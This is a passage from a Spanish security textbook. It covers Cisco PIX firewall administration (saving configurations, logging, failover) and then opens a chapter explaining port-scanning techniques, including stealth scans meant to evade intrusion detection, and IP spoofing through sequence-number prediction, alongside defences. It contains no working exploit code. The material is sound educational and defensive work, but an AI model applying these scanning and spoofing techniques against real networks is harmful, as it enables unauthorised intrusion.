anita:~$ 
\end{verbatim}
\end{quote}
Tenemos que arrancar con el disco al que hemos transferido este 
sistema, que nos autom\'aticamente nos preguntar\'a si queremos borrar las
claves; le diremos que s\'{\i} y reiniciaremos el cortafuegos, que tendr\'a 
como contrase\~na de acceso remoto {\tt `cisco'} y no tendr\'a {\it password}
para pasar al modo privilegiado.
\par{$\bullet$ {\it Cambios permanentes}}\\
Cada vez que nuestro PIX se apague perder\'a su configuraci\'on y cargar\'a o bien una introducida en un {\it diskette} (esto es
s\'olo teor\'{\i}a, nunca nos ha funcionado correctamente) o bien la 
que est\'a grabada en su memoria {\it flash}; si deseamos que nuestros cambios sean permanentes hemos de grabarlos o en disco o en 
memoria {\it flash} , mediante la orden {\bf write} ({\tt write floppy} o {\tt write mem}, en cada caso):
\begin{quote}
\begin{verbatim}
dixie# write mem
Building configuration...
Cryptochecksum: 206a9447 17e7ec36 d53c98d2 22a06c5e
[OK]
dixie# wr floppy
Building configuration...
[OK]
dixie#
\end{verbatim}
\end{quote}
Si lo que queremos es visualizar la configuraci\'on que vamos a grabar (la 
actual), podemos ejecutar la orden {\tt write terminal}, que la volcar\'a en 
pantalla; esto representa la configuraci\'on {\bf que se est\'a ejecutando en
estos momentos}, cuyo resultado puede ser diferente del proporcionado por {\bf 
sh conf} (este \'ultimo muestra la configuraci\'on que hemos cargado al
arrancar).
\par{$\bullet$ {\it Configuraci\'on de terminal}}\\
Para reconfigurar el n\'umero de l\'{\i}neas de nuestra terminal de conexi\'on, tanto en modo privilegiado como en modo usuario, 
podemos usar la orden {\bf pager}, que recibe como par\'ametro el n\'umero de l\'{\i}neas deseado:
\begin{quote}
\begin{verbatim}
dixie> show pager
pager lines 24
dixie> pager 30
dixie> show page
pager lines 30
dixie>
\end{verbatim}
\end{quote}
Para configurar el n\'umero de columnas de nuestra consola podemos utilizar el 
comando {\bf terminal}; si esta orden recibe
como par\'ametro la palabra {\tt monitor}, habilita la impresi\'on de mensajes de {\it syslog} en nuestra pantalla, mientras que 
si recibe como par\'ametro la palabra {\it width} modifica el n\'umero de columnas. De nuevo, para ver la configuraci\'on actual
utilizaremos la orden {\bf show}: 
\begin{quote}
\begin{verbatim}
dixie# show terminal

Width = 80, monitor
dixie# terminal width 90
dixie# show terminal

Width = 90, monitor
dixie#
\end{verbatim}
\end{quote}
\subsubsection{Informaci\'on del sistema}
Las \'ordenes que nos permiten obtener informaci\'on del estado actual del PIX comienzan por la palabra {\tt `show'}; algunas de 
ellas son las siguientes:
\begin{itemize}
\item {\bf show processes}\\
Muestra los procesos que se est\'an ejecutando en el cortafuegos.
\item {\bf show version}\\
Muestra informaci\'on gen\'erica sobre el {\it firewall}, como la versi\'on del {\it software} instalado en el PIX, el {\it uptime}
del sistema, ciertos par\'ametros {\it hardware}, licencias, etc. Este es un ejemplo de dicha informaci\'on:
\begin{quote}
\begin{verbatim}
dixie(config)# show version

Cisco Secure PIX Firewall Version 5.1(2)
Compiled on Tue 16-May-00 16:09 by bhochuli
Finesse Bios V3.3

dixie up 140 days 0 hours

Hardware:   SE440BX2, 128 MB RAM, CPU Pentium II 349 MHz
Flash AT29C040A @ 0x300, 2MB
BIOS Flash AM28F256 @ 0xfffd8000, 32KB

0: ethernet0: address is 0090.279b.c9d2, irq 11
1: ethernet1: address is 0090.279b.c848, irq 10
2: ethernet2: address is 0090.279b.c759, irq 15
3: ethernet3: address is 0090.279b.c84c, irq 9

Licensed connections:   65536

Serial Number: 18018531 (0x112f0e3)
Activation Key: 0xfe1f8896 0xe1fcb1e2 0x3400545b 0x8f392616
dixie(config)#
\end{verbatim}
\end{quote}
\item {\bf show interface}\\
Muestra informaci\'on detallada sobre cada uno de los interfaces de red del {\it firewall}, de forma muy parecida al {\tt ifconfig}
de Unix.
\item {\bf show conn}\\
Muestra las conexiones activas a trav\'es del cortafuegos.
\item {\bf show history}\\
Muestra las \'ultimas \'ordenes ejecutadas en l\'{\i}nea de comandos, de una forma similar al hist\'orico que casi todos los {\it 
shells} de Unix incorporan; la interfaz del PIX es muy similar a la de {\tt bash}: {\it Control--W} borra una palabra, {\it 
Control--E} va al final de l\'{\i}nea, {\it Control-B} al principio, {\it 
Control--R} realiza b\'usquedas, los cursores recorren el hist\'orico de 
\'ordenes, etc.
\item {\bf show flashfs}\\
Muestra informaci\'on sobre el sistema de ficheros empotrado en la memoria {\it flash} de la m\'aquina.
\item {\bf show clock}\\
Muestra la fecha y hora del sistema; podemos modificar esta informaci\'on 
mediante la orden {\bf clock}:
\begin{quote}
\begin{verbatim}
pixie(config)# sh clock
01:38:34 Jun 11 2001
pixie(config)# clock set 03:30:00 Jun 11 2001
pixie(config)# sh clock
03:30:02 Jun 11 2001
pixie(config)# 
\end{verbatim}
\end{quote}
\item {\bf show configure}\\
Muestra la configuraci\'on cargada al arrancar el cortafuegos (no tiene 
por qu\'e ser la que se est\'a ejecutando en estos momentos; esta se puede
ver con {\bf wr t}). Es el contenido de la memoria no vol\'atil.
\item {\bf show failover}\\
Muestra el estado del subsistema de tolerancia a fallos.
\item {\bf show who}\\
Muestra las conexiones establecidas v\'{\i}a {\it telnet} con el cortafuegos.
\end{itemize}
\subsection{El sistema de {\it log} remoto}
El PIX {\it Firewall} registra los eventos que se producen en la m\'aquina en 
un sistema de {\it log} que podemos visualizar en el propio cortafuegos 
mediante la orden {\bf sh log}. Tambi\'en podemos enviar los registros a un
sistema Unix que escuche peticiones de {\tt syslog} remoto, indicando la 
interfaz por la que se van a enviar los registros y la direcci\'on del sistema 
remoto mediante {\bf logging host}:
\begin{quote}
\begin{verbatim}
pixie(config)# logging host inside 192.168.63.22
pixie(config)# 
\end{verbatim}
\end{quote}
En el sistema donde deseemos enviar los registros, el demonio {\tt syslogd} ha 
de estar escuchando peticiones remotas (opci\'on {\tt `-r'} del programa), y
en los cortafuegos intermedios ha de estar habilitado el tr\'afico desde el
PIX al puerto 514 ({\sc udp}) de la m\'aquina Unix.\\
\\Por defecto, PIX registra eventos m\'as relacionados con el estado del {\it
failover} que con la seguridad de los sistemas y los posibles ataques que 
pueden sufrir. Esto genera una gran cantidad de mensajes que pueden hacer 
crecer al fichero de {\it log} de una forma considerable con entradas de este
tipo:
\begin{quote}
\begin{verbatim}
Jun  6 09:46:37 192.168.63.156 %PIX-1-103003: (Primary) Other firewall 
                network interface 0 failed.
Jun  6 09:46:49 192.168.63.156 %PIX-1-103005: (Primary) Other firewall 
                reporting failure. 
Jun  6 09:46:49 192.168.63.156 %PIX-1-105004: (Primary) Monitoring on 
                interface 1 normal
Jun  6 09:51:04 192.168.63.156 %PIX-1-105009: (Primary) Testing on interface 
                0 Passed
\end{verbatim}
\end{quote}
Para evitar registrar estos mensajes, en el cortafuegos podemos ejecutar la
orden {\bf no logging message}, que recibe como par\'ametro el n\'umero de 
mensaje que no queremos guardar; por ejemplo, si queremos evitar el registro de
la alerta {\tt PIX-1-103003}, ejecutaremos:
\begin{quote}
\begin{verbatim}
pixie(config)# no logging message 103003
pixie(config)# 
\end{verbatim}
\end{quote}
Si queremos lo contrario, volver a registrar el mensaje en el sistema remoto, 
ejecutaremos la misma orden pero sin el {\tt `no'} delante, o bien {\bf clear
logging disabled}, que habilita el registro de {\bf todos} los mensajes.
\begin{quote}
\begin{verbatim}
pixie(config)# logging message 103003
pixie(config)# 
\end{verbatim}
\end{quote}
Podemos ver los mensajes que no estamos registrando mediante el comando {\bf sh 
logging disabled}:
\begin{quote}
\begin{verbatim}
pixie(config)# sh logging disabled
no logging message 105008
no logging message 105009
no logging message 103003
no logging message 103004
no logging message 103005
pixie(config)#
\end{verbatim}
\end{quote}
A nosotros nos va a interesar m\'as registrar eventos registrados con entradas
y salidas al cortafuegos, y tambi\'en con tr\'afico negado en el mismo. Para
ello, podemos ver la {\it facility} y la {\it severity} de los mensajes de {\it
log} en el sistema Unix; la {\it facility} es siempre {\bf PIX}, mientras que
la {\it severity} es el n\'umero siguiente en el c\'odigo de mensaje registrado
(de 1 a 7); por ejemplo, un mensaje con un c\'odigo como {\tt PIX-6-307002} 
corresponde a una {\it facility} PIX y a una {\it severity} 6.\\
\\Podemos configurar nuestro {\tt syslog.conf} para registrar los eventos 
provenientes del PIX (para Unix, con {\it severity} {\bf local4}) en diferentes
ficheros; lo m\'as c\'omodo ser\'a registrar todos los eventos (ejecutando {\bf
logging trap debugging}) con una {\it facility} 20 ({\bf logging facility 20}),
y luego denegar mensajes determinados -- relativos al {\it failover} mediante
{\tt no logging message}.
\subsection{{\it Failover}}
El sistema de alta disponibilidad implantado por PIX permite utilizar una 
unidad secundaria que tomar\'a el control de las conexiones en caso de que
la primaria falle; ambas unidades estar\'an conectadas por un cable serie (un
RS--232 modificado) que transmite a 9600 baudios, y cont\'{\i}nuamente se
intercambian mensajes {\tt `hello'} para que ambas puedan conocer el estado de 
la otra unidad. Si dos de estos mensajes consecutivos -- se env\'{\i}an a 
intervalos de 15 segundos -- no son recibidos en un determinado tiempo, entra
en juego el {\it failover} para comprobar cual de las dos unidades ha fallado y
transferir el control a la otra. Entonces cada unidad cambia de estado: la nueva
unidad activa asume las direcciones IP y MAC de la anterior y comienza a 
aceptar tr\'afico, y la que antes era la activa ahora asume los par\'ametros de
la que no lo era; el resto de elementos de la red no ve ning\'un cambio en los
dispositivos, por lo que no existen cambios o {\it timeouts} en las tablas 
ARP.\\
\\Si queremos saber el estado del {\it failover} (por ejemplo para ver cu\'al 
es la unidad activa en un determinado momento) hemos de ejecutar la orden
{\bf sh failover}:
\begin{quote}
\begin{verbatim}
pixie(config)# sh failover
Failover On
Cable status: Normal
Reconnect timeout 0:00:00
        This host: Primary - Active 
                Active time: 386520 (sec)
                Interface failover (192.168.87.209): Normal 
                Interface dmz1 (192.168.63.156): Normal 
                Interface outside (172.17.1.1): Normal
                Interface inside (172.17.2.1): Normal 
        Other host: Secondary - Standby 
                Active time: 405 (sec)
                Interface failover (192.168.87.210): Normal 
                Interface dmz1 (192.168.63.157): Normal 
                Interface outside (172.17.1.2): Normal
                Interface inside (172.17.2.2): Normal 

Stateful Failover Logical Update Statistics
        Link : failover
        Stateful Obj    xmit       xerr       rcv        rerr      
        General         53081      0          50149      0         
        sys cmd         52067      0          50146      0         
        up time         0          0          0          0         
        xlate           9          0          0          0         
        tcp conn        1005       0          3          0         
        udp conn        0          0          0          0         
        ARP tbl         0          0          0          0         
        RIP Tbl         0          0          0          0         

        Logical Update Queue Information
                        Cur     Max     Total
        Recv Q:         0       1       50149
        Xmit Q:         0       3       53081
pixie(config)#  
\end{verbatim}
\end{quote}
En el resultado de la orden anterior vemos que la unidad principal est\'a
funcionando normalmente, mientras que la secundaria est\'a en {\it standby}; 
esto ser\'a lo habitual si no entra en juego el {\it failover} o incluso si
entra y la unidad principal se recupera, ya que en ese caso se hace un 
rebalanceo. Si en lugar de que todas las interfaces est\'en en estado normal
aparecieran errores temporales de escasa duraci\'on, no hay ning\'un problema, 
ya que esto suele significar que el cortafuegos est\'a testeando la alta 
disponibilidad y la conectividad de las interfaces.\\
\\El {\it failover} es casi transparente a la administraci\'on de la m\'aquina,
en el sentido de que la configuraci\'on s\'olo se realiza en la unidad activa
en cada momento, y autom\'aticamente se transfiere a la que est\'a en {\it 
standby}; adem\'as, como hemos dicho, cuando entra la alta disponibilidad las 
unidades intercambian sus direcciones IP, por lo que el acceso v\'{\i}a {\it 
telnet} a la m\'aquina se realiza contra la misma direcci\'on que durante el 
funcionamiento normal de los equipos. Incluso si trabajamos con {\it stateful 
failover}, las unidades mantienen la informaci\'on de estado de cada 
conexi\'on, por lo que en caso de {\it switchover} ninguna de ellas se pierde; 
en caso contrario, las conexiones activas son eliminadas y el cliente debe 
reestablecerlas.\\
\\Con la orden {\bf failover} podemos habilitar el {\it failover}, y con {\bf
no failover} deshabilitarlo:
\begin{quote}
\begin{verbatim}
pixie(config)# no failover
pixie(config)# sh failover
Failover Off
Cable status: Normal
Reconnect timeout 0:00:00
pixie(config)# 
\end{verbatim}
\end{quote}
Las \'ordenes anteriores tambi\'en admiten argumentos; si indicamos {\tt 
`link'} podemos definir la interfaz de {\it stateful failover}, por la que 
ambas unidades intercambiar\'an informaci\'on. Con {\tt `ip address'} podemos 
configurar una direcci\'on de {\it failover} para cada interfaz de la unidad
secundaria, y con el par\'ametro {\tt `active'} forzamos a una unidad 
determinada ponerse como activa (o en {\it standby}, si ejecutamos {\tt no 
failover active}). Como siempre, podemos teclear el signo {\tt `?'} para 
obtener ayuda desde l\'{\i}nea de comandos:
\begin{quote}
\begin{verbatim}
pixie(config)# failover ?
usage: [no] failover [active]
        failover ip address <if_name> <ip_address>
        failover timeout <hh:mm:ss>
        failover reset
        failover link <if_name>
pixie(config)# failover 
\end{verbatim}
\end{quote}

\cleardoublepage
\chapter{Ataques remotos}
\section{Escaneos de puertos}
Una de las primeras actividades que un potencial (o no tan potencial) atacante 
realizar\'a contra su objetivo ser\'a sin duda un escaneo de puertos, un {\it 
portscan}; esto le permitir\'a obtener en primer lugar informaci\'on b\'asica 
acerca de qu\'e servicios estamos ofreciendo en nuestras m\'aquinas y, 
adicionalmente, otros detalles de nuestro entorno como qu\'e sistema operativo 
tenemos instalados en cada {\it host} o ciertas caracter\'{\i}sticas de la
arquitectura de nuestra red. Analizando qu\'e puertos est\'an abiertos en un
sistema, el atacante puede buscar agujeros en cada uno de los servicios 
ofrecidos: cada puerto abierto en una m\'aquina es una potencial puerta de 
entrada a la misma.\\
\\Comprobar el estado de un determinado puerto es {\it a priori} una tarea muy
sencilla; incluso es posible llevarla a cabo desde la l\'{\i}nea de \'ordenes,
usando una herramienta tan gen\'erica como {\tt telnet}. Por ejemplo, imaginemos
que queremos conocer el estado del puerto 5000 en la m\'aquina cuya direcci\'on
IP es 192.168.0.10; si el {\tt telnet} a dicho puerto ofrece una respuesta, 
entonces est\'a abierto y escuchando peticiones:
\begin{quote}
\begin{verbatim}
anita:~$ telnet 192.168.0.10 5000 
Trying 192.168.0.10...
Connected to 192.168.0.10.
Escape character is '^]'.
^D
Connection closed by foreign host.
anita:~$ 
\end{verbatim}
\end{quote}
Si por el contrario el puerto est\'a abierto pero en \'el no hay ning\'un 
demonio atendiendo peticiones, la respuesta ser\'a similar a la siguiente:
\begin{quote}
\begin{verbatim}
anita:~$ telnet 192.168.0.10 5000
Trying 192.168.0.10...
telnet: Unable to connect to remote host: Connection refused
anita:~$ 
\end{verbatim}
\end{quote}
Por \'ultimo, si el puerto est\'a protegido por un cortafuegos, lo m\'as 
probable\footnote{Es posible, dependiendo de la configuraci\'on y del tipo de 
nuestro cortafuegos, que obtengamos otro tipo de respuesta, generalmente un
{\it `Connection refused'}.} es que no obtengamos respuesta alguna; el {\tt 
telnet} lanzado se 
quedar\'a intentando la conexi\'on hasta que se produzca un {\it timeout} o 
hasta que lo paremos manualmente:
\begin{quote}
\begin{verbatim}
anita:~$ telnet 192.168.0.10 5000
Trying 192.168.0.10...
^D
anita:~$ 
\end{verbatim}
\end{quote}
Por lo general, nadie en su sano juicio usar\'{\i}a {\tt telnet} para realizar
un escaneo de puertos masivo contra un sistema o contra toda una red; existen
herramientas como {\tt strobe} o {\tt nmap} (la m\'as conocida) que pueden 
realizar esta tarea de una forma m\'as o menos c\'omoda y automatizable.
Evidentemente, ninguno de estos programas se dedica a lanzar {\it telnets} 
contra los puertos de un sistema: los escaneadores de puertos actuales 
implementan diferentes t\'ecnicas que permiten desde detectar desde la versi\'on
del sistema operativo usado en la m\'aquina atacada hasta pasar inadvertidos 
ante diferentes sistemas de detecci\'on de intrusos.\\
\\Existen diferentes aproximaciones para clasificar los escaneos de puertos,
tanto en funci\'on de las t\'ecnicas seguidas en el ataque como en funci\'on de
a qu\'e sistemas o puertos concretos va dirigido. Por ejemplo, se habla de un 
escaneo {\bf horizontal} cuando el atacante busca la disponibilidad de 
determinado servicio en diferentes 
m\'aquinas de una red; por ejemplo, si el pirata dispone de un {\it exploit} 
que aprovecha un fallo en la implementaci\'on de {\tt sendmail}, es normal que
trate de averiguar qu\'e m\'aquinas aceptan peticiones {\sc smtp} en un
determinado segmento para posteriormente atacar a dichos sistemas. Si por 
contra el pirata s\'olo escanea puertos de una m\'aquina, se denomina al ataque 
escaneo {\bf vertical}, y suele denotar el inter\'es del atacante en ese {\it
host} concreto; si comprueba todos los puertos del sistema al escaneo se le 
denomina {\it vanilla}, mientras que si s\'olo lo hace contra determinados 
puertos o rangos, se le denomina {\it strobe} (en referencia al programa del 
mismo nombre). Si nos basamos en las t\'ecnicas utilizadas, podemos dividir los
escaneos en tres grandes familias: {\it open}, {\it half--open} y {\it stealth};
vamos a hablar con m\'as detalle de cada una de ellas y de los diferentes 
tipos escaneos que las forman.\\
\\Los escaneos {\bf open} se basan en el establecimiento de una conexi\'on {\sc 
tcp} completa mediante el conocido como protocolo de acuerdo de tres v\'{\i}as 
o {\it three--way handshake} (\cite{kn:tom75}), por lo que son muy sencillos de 
detectar y detener. Utilizan la llamada {\tt connect()}, siendo lo m\'as similar
-- guardado las distancias -- al ejemplo del {\tt telnet} que hemos visto antes:
el escaneador intenta establecer una conexi\'on con un puerto concreto del {\it 
host} atacado, y en funci\'on de la respuesta obtenida conoce su estado: una
t\'ecnica r\'apida, sencilla, fiable y que no necesita de ning\'un privilegio 
especial en la m\'aquina atacante.\\
\\La segunda t\'ecnica que hemos comentado es la de los escaneos {\bf 
half--open}; en este caso, el pirata finaliza la conexi\'on antes de que se 
complete el protocolo de acuerdo de tres v\'{\i}as, lo que de entrada dificulta 
-- aunque no mucho --
la detecci\'on del ataque por parte de algunos detectores de intrusos muy 
simples (casi todos los actuales son capaces de detectarlos). Dentro de esta
t\'ecncia se encuentra el {\it SYN Scanning}: cuando el origen -- atacante --
recibe del destino -- m\'aquina escaneada -- los {\it bits} {\sc syn+ack}, 
env\'{\i}a un {\it bit} {\sc rst} (no es necesaria una nueva trama, ya que este
{\it bit} se env\'{\i}a autom\'aticamente a nivel de n\'ucleo) en lugar del
{\sc ack} correspondiente a un {\it three--way handshake} completo. Los escaneos
{\sc syn} son f\'acilmente detectables y pueden ser bloqueados en cualquier 
cortafuegos; existe una variable de esta t\'ecnica denominada {\it dumb 
scanning} (\cite{kn:det01}) en la que entra en juego una tercera m\'aquina 
denominada `tonta' (por el poco tr\'afico que emite y recibe), algo que puede 
ayudar al pirata a camuflar su origen real. Sin embargo, el {\it dumb scanning} 
es m\'as complicado que el {\it SYN scanning}, por lo que se utiliza mucho 
menos en la vida real.\\
\\Finalmente, existe otra modelo de escaneo denominado {\bf stealth 
scanning}. En diciembre de 1995 Christopher Klaus proporcion\'o las pautas de 
ciertas t\'ecnicas de escaneo que
permit\'{\i}an al atacante eludir la acci\'on de los sistemas de detecci\'on
de intrusos de la \'epoca (\cite{kn:kla95}) y a las que bautiz\'o como {\it 
stealth scanning}; actualmente el significado del t\'ermino ha cambiado, ya que
lo que Klaus present\'o se denomina hoy en d\'{\i}a {\it half--open scanning}, y
por {\it stealth scanning} se conoce a una familia de t\'ecnicas de escaneo que 
cumplen alguna de las siguientes condiciones\footnote{Tambi\'en se utiliza el
t\'ermino {\it stealth} para referirse \'unicamente a los escaneos {\sc null}, 
que como veremos despu\'es son aquellos con todos los {\it flags} de la trama 
reseteados.}:
\begin{itemize}
\item Eludir cortafuegos o listas de control de acceso.
\item No ser registradas por sistemas de detecci\'on de intrusos, ni orientados
a red ni en el propio {\it host} escaneado.
\item Simular tr\'afico normal y real para no levantar sospechas ante un 
analizador de red.
\end{itemize}
Una de las t\'ecnicas que encontramos dentro de la familia de los escaneos {\it 
stealth} es la conocida como {\sc syn+ack}. La idea es muy simple, y consiste en
una violaci\'on del {\it three--way handshake}: el atacante, en lugar de enviar 
en primer lugar una trama {\sc syn}, env\'{\i}a {\sc syn+ack}. Si el puerto 
est\'a abierto simplemente se ignora, y si est\'a cerrado sabe que no ha 
recibido previamente un paquete {\sc syn}, por lo que lo considera un error y
env\'{\i}a una trama {\sc rst} para finalizar la conexi\'on.\\
\\Los escaneos basados en este m\'etodo se usan poco en la actualidad, debido
al elevado n\'umero de falsos positivos que pueden generar: s\'olo debemos 
pensar en los m\'ultiples motivos -- aparte de un puerto abierto -- que pueden
existir para que un sistema no responda ante una petici\'on {\sc syn+ack}: 
desde listas de control de accesos en los {\it routers} o cortafuegos hasta 
simples {\it timeouts}.\\
\\Otra t\'ecnica dentro de los escaneos {\it stealth} es el {\sc fin} {\it
scanning} (\cite{kn:mai96}): en este caso, el atacante env\'{\i}a a su objetivo 
una trama con el {\it bit} {\sc fin} activo, ante lo que este responde con un
{\sc rst} si el puerto est\'a cerrado, o simplemente no responde en caso de
estar abierto; como en el caso de los escaneos {\sc syn+ack} este m\'etodo puede
proporcionar muchos falsos positivos, por lo que tampoco se utiliza mucho hoy
en d\'{\i}a.\\
\\Tambi\'en en \cite{kn:mai96}, se propone un m\'etodo de escaneo algo m\'as
complejo: el {\sc ack}. El atacante env\'{\i}a una trama con este {\it bit}
activo, y si el puerto destino est\'a abierto es muy posible que o bien el 
campo {\sc ttl} del paquete de vuelta sea menor que el del resto de las tramas 
{\sc rst} recibidas, o que el tama\~no de ventana sea mayor que cero: como 
podemos ver, en este caso no basta con analizar el bit {\sc rst} sino tambi\'en
la cabecera {\sc ip} del paquete respuesta. Este m\'etodo es dif\'{\i}cil de 
registrar por parte de los detectores de intrusos, pero se basa en el c\'odigo
de red de {\sc bsd}, por lo que es dependiente del operativo escaneado.\\
\\Para finalizar con la familia de {\it stealth scanning} vamos a hablar de dos
m\'etodos opuestos entre s\'{\i} pero que se basan en una misma idea y 
proporcionan resultados similares: se trata de {\sc xmas} y {\sc null}. Los 
primeros, tambi\'en denominados escaneos `\'arbol de navidad', se basan en 
enviar al objetivo
tramas con todos los {\it bits} {\sc tcp} ({\sc urg, ack, pst, rst, syn} y {\sc
fin}) activos; si el puerto est\'a abierto el n\'ucleo del sistema operativo
eliminar\'a la trama, ya que evidentemente la considera una violaci\'on del
{\it three--way handshake}, pero si est\'a cerrado devolver\'a un {\sc rst} al
atacante. Como antes, este m\'etodo puede generar demasiados falsos positivos,
y adem\'as s\'olo es aplicable contra m\'aquinas Unix debido a que est\'a
basado en el c\'odigo de red de {\sc bsd}.\\
\\Por contra, el m\'etodo opuesto al {\sc xmas} se denomina {\sc null} {\it 
scanning}, y
evidentemente consiste en enviar tramas con todos los {\it bits} {\sc tcp} 
reseteados; el resultado es similar: no se devolver\'a ning\'un resultado si
el puerto est\'a abierto, y se enviar\'a un {\sc rst} si est\'a cerrado. Aunque
en principio este m\'etodo ser\'{\i}a aplicable a cualquier pila {\sc tcp/ip}
(\cite{kn:ark99}), la implementaci\'on -- incorrecta -- que de la misma hacen 
algunos operativos (entre ellos HP/UX o IRIX) hace que en ocasiones se 
envien {\it bits} {\sc rst} tambi\'en desde los puertos abiertos, lo que 
puede proporcionar demasiados falsos positivos.\\
\\Antes de acabar el punto, vamos a hablar de otra t\'ecnica de escaneo de 
puertos que no se puede englobar en las tres clases de las que hemos hablado:
se trata de los escaneos {\sc udp}, que al contrario de todos los comentados
hasta el momento utiliza este protocolo, y no {\sc tcp}, para determinar el
estado de los puertos de una m\'aquina. Al enviar un datagrama {\sc udp} a un
puerto abierto este no ofrece res\-pues\-ta alguna, pero si est\'a cerrado 
devuelve
un mensaje de error {\sc icmp}: {\sc icmp$\_$port$\_$unreachable}. 
Evidentemente, estos ataques son muy sencillos de detectar y evitar tanto en
un sistema de detecci\'on de intrusos como en los n\'ucleos de algunos Unices, 
y por si esto fuera poco debemos recordar que {\sc udp} no es un protocolo 
orientado a conexi\'on (como lo es {\sc tcp}), por lo que la p\'erdida de
datagramas puede dar lugar a un elevado n\'umero de falsos positivos.\\
\\Hemos repasado las t\'ecnicas m\'as habituales -- no todas -- que un atacante 
puede utilizar para averiguar el estado de los puertos de nuestras m\'aquinas;
muchas de ellas son sencillas de detectar y evitar utilizando cortafuegos 
sencillos y gratuitos como {\tt iptables} o {\it IPFilter}, por lo que tenemos
una raz\'on m\'as para utilizar un {\it firewall} que proteja nuestra red. Los
puertos abiertos de un sistema proporcionan a un pirata una valiosa 
informaci\'on sobre el mismo, en muchos casos suficiente para iniciar un ataque 
m\'as serio contra la m\'aquina, as\'{\i} que mucho mejor para nosotros cuanto
m\'as dif\'{\i}cil le pongamos esta tarea.
\section{\it Spoofing}
Por {\it spoofing} se conoce a la creaci\'on de tramas {\sc tcp/ip} utilizando
una direcci\'on IP falseada; la idea de este ataque -- al menos la idea -- es 
muy sencilla: desde su equipo, un pirata simula la identidad de otra m\'aquina 
de la red para conseguir acceso a recursos de un tercer sistema que ha 
establecido alg\'un tipo de confianza basada en el nombre o la direcci\'on IP 
del {\it host} suplantado. Y como los anillos de confianza basados en estas 
caracter\'{\i}sticas tan f\'acilmente falsificables son a\'un demasiado 
abundantes (no tenemos m\'as que pensar en los comandos {\tt r-$\ast$}, los 
accesos {\sc nfs}, o la protecci\'on de servicios de red mediante {\it TCP 
Wrapper}), el {\it spoofing} sigue siendo en la actualidad un ataque no trivial,
pero factible contra cualquier tipo de organizaci\'on.\\
\\Como hemos visto, en el {\it spoofing} entran en juego tres m\'aquinas: un
atacante, un atacado, y un sistema suplantado que tiene cierta relaci\'on con
el atacado; para que el pirata pueda conseguir su objetivo necesita por un lado 
establecer una comunicaci\'on falseada con su objetivo, y por otro evitar que 
el equipo suplantado interfiera en el ataque (\cite{kn:tod96}). Probablemente 
esto \'ultimo no le sea muy dif\'{\i}cil de conseguir: a pesar de que existen
m\'ultiples formas de dejar fuera de juego al sistema suplantado -- al menos a
los ojos del atacado -- que no son triviales (modificar rutas de red, ubicar un
filtrado de paquetes entre ambos sistemas\ldots), lo m\'as f\'acil en la 
mayor\'{\i}a de ocasiones es simplemente lanzar una negaci\'on de servicio 
contra el sistema en cuesti\'on. Aunque en el punto siguiente hablaremos con 
m\'as detalle de estos ataques, no suele ser dif\'{\i}cil `tumbar', o al menos
bloquear parcialmente, un sistema medio; si a pesar de todo el atacante no lo
consigue, simplemente puede esperar a que desconecten de la red a la m\'aquina a
la que desea suplantar (por ejemplo, por cuestiones de puro mantenimiento).\\
\\El otro punto importante del ataque, la comunicaci\'on falseada entre dos
equipos, no es tan inmediato como el anterior y es donde reside la principal
dificultad del {\it spoofing}. En un escenario t\'{\i}pico del ataque, un
pirata env\'{\i}a una trama {\sc syn} a su objetivo indicando como direcci\'on 
origen la de esa tercera m\'aquina que est\'a fuera de servicio y que mantiene 
alg\'un tipo de relaci\'on de confianza con la atacada. El {\it host} objetivo 
responde con un {\sc syn+ack} a la tercera m\'aquina, que simplemente lo 
ignorar\'a por estar fuera de servicio (si no lo hiciera, la 
conexi\'on se resetear\'{\i}a y el ataque no ser\'{\i}a posible), y el atacante 
enviar\'a ahora una trama {\sc ack} a su objetivo, tambi\'en con la direcci\'on
origen de la tercera m\'aquina. Para que la conexi\'on llegue a establecerse, 
esta \'ultima trama deber\'a enviarse con el n\'umero de secuencia adecuado; el
pirata ha de predecir correctamente este n\'umero: si no lo hace, la trama 
ser\'a descartada), y si lo consigue la conexi\'on se establecer\'a y podr\'a 
comenzar a enviar datos a su objetivo, generalmente para tratar de insertar una 
puerta trasera que permita una conexi\'on normal entre las dos m\'aquinas.\\
\\Podemos comprobar que el {\it spoofing} no es inmediato; de entrada, el 
atacante ha 
de hacerse una idea de c\'omo son generados e incrementados los n\'umeros 
de secuencia TCP, y una vez que lo sepa ha de conseguir `enga\~nar' a su 
objetivo utilizando estos n\'umeros para establecer la comunicaci\'on; cuanto 
m\'as robusta sea esta generaci\'on por parte del objetivo, m\'as dif\'{\i}cil 
lo tendr\'a el pirata para realizar el ataque con \'exito. Adem\'as, es 
necesario recordar que el {\it spoofing} es un ataque ciego: el atacante no ve 
en ning\'un momento las respuestas que emite su objetivo, ya que estas van 
dirigidas a la m\'aquina que previamente ha sido deshabilitada, por lo que debe 
presuponer qu\'e est\'a sucediendo en cada momento y responder de forma 
adecuada en base a esas suposiciones. Ser\'{\i}a imposible tratar con el 
detenimiento que merecen todos los detalles relativos al {\it spoofing} por lo 
que para obtener informaci\'on adicional es necesario dirigirse a excelentes 
art\'{\i}culos que estudian todos los pormenores del ataque, como 
\cite{kn:dae96b} o \cite{kn:tod96}; de la misma forma, para conocer con detalle 
el funcionamiento del protocolo {\sc tcp/ip} y sus problemas podemos consultar 
\cite{kn:ste94}, \cite{kn:tan96}, \cite{kn:bel89} y \cite{kn:mor85}.\\
\\Para evitar ataques de {\it spoofing} exitosos contra nuestros sistemas 
podemos tomar diferentes medidas preventivas; en primer lugar, parece evidente
que una gran ayuda es reforzar la secuencia de predicci\'on de n\'umeros de
secuencia {\sc tcp}: un esquema de generaci\'on robusto puede ser el basado en
\cite{kn:rfc1498}, que la mayor\'{\i}a de Unices son capaces de implantar 
(aunque muchos de ellos no lo hagan por defecto). Otra medida sencilla es
eliminar las relaciones de confianza basadas en la direcci\'on {\sc ip} o el
nombre de las m\'aquinas, sustituy\'endolas por relaciones basadas en claves
criptogr\'aficas; el cifrado y el filtrado de las conexiones que pueden aceptar 
nuestras m\'aquinas tambi\'en son unas medidas de seguridad importantes de cara 
a evitar el {\it spoofing}.\\
\\Hasta ahora hemos hablado del ataque gen\'erico contra un {\it host} 
denominado {\it spoofing} o, para ser m\'as exactos, {\it IP Spoofing}; existen
otros ataques de falseamiento relacionados en mayor o menor medida con este, 
entre los que destacan el {\it DNS Spoofing}, el {\it ARP Spoofing} y el {\it
Web Spoofing} (\cite{kn:ris01}). Para finalizar este punto, vamos a comentarlos
brevemente e indicar algunas lecturas donde se puede ampliar informaci\'on 
sobre los mismos:
\begin{itemize}
\item{\it DNS Spoofing}\\
